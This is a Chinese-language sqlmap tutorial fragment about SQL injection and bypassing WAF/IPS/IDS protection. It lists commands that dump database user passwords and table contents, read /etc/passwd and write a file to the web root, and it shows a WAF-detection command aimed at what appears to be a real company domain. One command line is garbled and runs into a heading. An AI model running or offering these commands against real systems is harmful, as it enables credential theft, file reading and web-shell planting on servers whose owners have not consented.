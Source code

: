 ```
3.读取所有数据库用户或指定数据库用户的密码 
sqlmap -u http://www.xxxxx.com/test.php?p=2 --users --passwords -v 2 
sqlmap -u http://www.xxxxx.com/test.php?p=2 --passwords -U root -v 2 
4.获取所有数据库 
sqlmap -u http://www.xxxxx.com/test.php?p=2 --dbs -v 2 
5.获取指定数据库中的所有表 
sqlmap -u http://www.xxxxx.com/test.php?p=2 --tables -D mysql -v 2 
6.获取指定数据库名中指定表的字段 
sqlmap -u http://www.xxxxx.com/test.php?p=2 --columns -D mysql -T users -v 2 
7.获取指定数据库名中指定表中指定字段的数据 
sqlmap -u http://www.xxxxx.com/test.php?p=2 --dump -D mysql -T users -C "username,password" -s "sqlnmapdb.log" -v 2 
8.file-read读取web文件 
sqlmap -u http://www.xxxxx.com/test.php?p=2 --file-read "/etc/passwd" -v 2 
9.file-write写入文件到web 
sqlmap -u http://www.xxxxx.com/test.php?p=2 --file-write /localhost/mm.php --file使用sqlmap绕过防火墙进行注入测试：
```

***1\***|***0\*****0x00 前言**



```

```

  现在的网络环境往往是WAF/IPS/IDS保护着Web 服务器等等，这种保护措施往往会过滤挡住我们的SQL注入查询链接，甚至封锁我们的主机IP，所以这个时候，我们就要考虑怎样进行绕过，达到注入的目标。因为现在WAF/IPS/IDS都把sqlmap 列入黑名单了，呵呵！但是本文基于sqlmap 进行绕过注入测试，介绍至今仍然实用有效的技巧，以下策略在特定的环境能够成功绕过，具体是否绕过，请仔细查看输出的信息。



```

```

***2\***|***0\*****0x01 确认WAF**



```

```

   首先我们判断该Web 服务器是否被WAF/IPS/IDS保护着。这点很容易实现，因为我们在漏扫或者使用专门工具来检测是否有WAF，这个检测，在nmap 的NSE，或者WVS的策略或者APPSCAN的策略中都有，我们可以利用这些来判断。在此我们，也介绍使用sqlmap 进行检测是否有WAF/IPS/IDS



```

```

root@kali:~# sqlmap -u "http://yiliao.kingdee.com/contents.php?id=51&types=4" --thread 10 --identify-waf#首选



```

```
